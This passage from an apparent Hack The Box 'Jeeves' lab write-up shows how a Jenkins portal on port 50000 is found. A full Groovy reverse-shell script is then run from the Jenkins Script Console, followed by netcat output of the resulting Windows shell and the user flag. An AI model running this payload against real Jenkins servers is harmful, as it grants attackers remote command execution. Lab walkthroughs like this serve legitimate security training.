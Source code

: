 ![](https://raw.githubusercontent.com/AidenPearce369/OSCP-HTB/main/Jeeves/img/5.png)

On port ```50000``` its showing some page,

![](https://raw.githubusercontent.com/AidenPearce369/OSCP-HTB/main/Jeeves/img/6.png)

Seems like a ```jenkins``` portal

## Gaining Access

Since ```jenkins``` is a software development and maintainence application, lets look for input fields where we can pass our ```reverse shell payloads``` to gain user shell

![](https://raw.githubusercontent.com/AidenPearce369/OSCP-HTB/main/Jeeves/img/7.png)

After creating a project and tried submitting reverse shells script in multiple inputs, no luck

In jenkins it is said that, we can execute our own code in Script console

![](https://raw.githubusercontent.com/AidenPearce369/OSCP-HTB/main/Jeeves/img/8.png)


In ```Script console``` it is mentioned that we can run scripts in administrator level for the application

Here ```Groovy script``` is required to spawn a shell

Reverse shell in [Groovy Script](https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76)

```c
String host="10.10.14.3";
int port=9876;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

![](https://raw.githubusercontent.com/AidenPearce369/OSCP-HTB/main/Jeeves/img/9.png)

Lets run this script to spawn a reverse shell on our machine

```c
┌──(aidenpearce369㉿aidenpearce369)-[~]
└─$ nc -nlvp 9876                                                                                                                            1 ⨯
listening on [any] 9876 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.63] 49676
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Users\Administrator\.jenkins>whoami
whoami
jeeves\kohsuke

...

C:\Users\kohsuke\Desktop>more user.txt
more user.txt
<---USER FLAG--->
```
